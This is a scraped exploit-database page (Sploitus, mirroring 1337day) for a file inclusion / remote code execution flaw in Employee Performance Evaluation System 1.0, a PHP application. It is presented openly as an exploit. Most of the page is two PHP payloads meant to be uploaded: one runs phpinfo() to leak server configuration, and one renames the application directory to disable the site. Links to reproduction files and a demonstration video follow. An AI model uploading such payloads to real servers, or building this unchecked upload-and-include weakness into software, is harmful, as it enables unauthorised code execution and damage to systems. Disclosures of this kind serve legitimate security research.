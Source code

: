 ```yaml
---
title: Employee Performance Evaluation System 1.0 - File Inclusion Vulnerabilities exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38268&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-18
fetch_date: 2025-10-04T09:55:19.374680
---
```


# Employee Performance Evaluation System 1.0 - File Inclusion Vulnerabilities exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Employee Performance Evaluation System 1.0 - File Inclusion Vulnerabilities

2023-03-17 | CVSS 0.3

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38268
## Title: Employee Performance Evaluation System-1.0 - File Inclusion Vulnerabilities - RCE - User Interaction
## Author: nu11secur1ty
## Vendor: https://www.sourcecodester.com/user/257130/activity
## Software: https://www.sourcecodester.com/php/14617/employee-performance-evaluation-system-phpmysqli-source-code.html
## Reference: https://brightsec.com/blog/file-inclusion-vulnerabilities/

## Description:
The Employee Performance Evaluation System-1.0 suffer from File Inclusion - RCE Vulnerabilities.
The usual user of this system is allowed to submit a malicious file or upload a malicious file to the server.
After then this user can execute remotely the already malicious included file on the server of the victim. This can bring the system to disaster or can destroy all information that is inside or this information can be stolen.

STATUS: CRITICAL Vulnerability

[+]Get Info:

```PHP
<?php
// by nu11secur1ty - 2023
	phpinfo();
?>

```
[+]Exploit:

```PHP
<?php
// by nu11secur1ty - 2023
// Old Name Of The file
$old_name = "C:/xampp7/htdocs/pwnedhost7/epes/" ;

// New Name For The File
$new_name = "C:/xampp7/htdocs/pwnedhost7/epes15/" ;

// using rename() function to rename the file
rename( $old_name, $new_name) ;

?>
```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/upload/main/vendors/oretnom23/2023/Employee-Performance-Evaluation-1.0)

## Proof and Exploit:
[href](https://streamable.com/fdv1pu)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)